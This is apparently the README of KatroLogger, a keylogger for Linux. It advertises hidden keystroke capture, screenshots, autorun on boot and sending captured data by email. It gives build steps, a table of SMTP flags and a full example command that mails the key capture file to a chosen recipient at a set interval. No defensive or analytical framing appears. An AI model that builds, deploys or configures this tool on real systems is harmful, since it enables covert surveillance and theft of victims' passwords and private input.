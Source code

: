 <p align="center">
  <a href="https://github.com/Katrovisch/KatroLogger">
    <img src="https://github.com/Katrovisch/KatroLogger/blob/master/static/img/logo.png">
  </a>
</p>

---

<h3 align="center"><code>KeyLogger for Linux Systems</code></h3>

### Features
  - Runs on GUI systems or CLI
  - Sending data by email
  - Autorun on boot
  - Screenshots

### Dependencies
- [libcurl](https://curl.se/libcurl/)
- [Cairo graphics library](https://www.cairographics.org/)
- [libquickmail](https://sourceforge.net/projects/libquickmail/)

Install libquickmail:
```Shell
wget https://ufpr.dl.sourceforge.net/project/libquickmail/libquickmail-0.1.29.tar.xz
```Shell
tar -xvf libquickmail-0.1.29.tar.xz
```
```Shell
./autogen.sh && ./configure && make && make install
```

### Install

```Shell
./configure && make && make install
```

### Usage

```Shell
katrologger --output /path/file
```
### Send data by e-mail

| Argument | Description | 
|---|---|
| --smtp-status | email sending status |
| --smtp-url | SMTP server |
| --smtps-url | SMTPS server |
| --port | SMTP port|
| --mail-from | source email |
| --pass | password email |
| --mail-rcpt | receipt email |
| --smtp-file | attach key capture file for sending |
| --update | update interval for sending email, 1-60 (minutes) |
| --screen | screenshots (:0 is display default) |


```Shell
katrologger --smtps-url smtp.gmail.com --port 465 --mail-from <address> --mail-rcpt <address> --pass <password> --smtp-file /path/keyscan --time 10
```

### Uninstall
```Shell
make uninstall
```

### License

KatroLogger is licensed under the [GNU General Public License v3.0](https://github.com/Katrovisch/KatroLogger/blob/master/LICENSE)
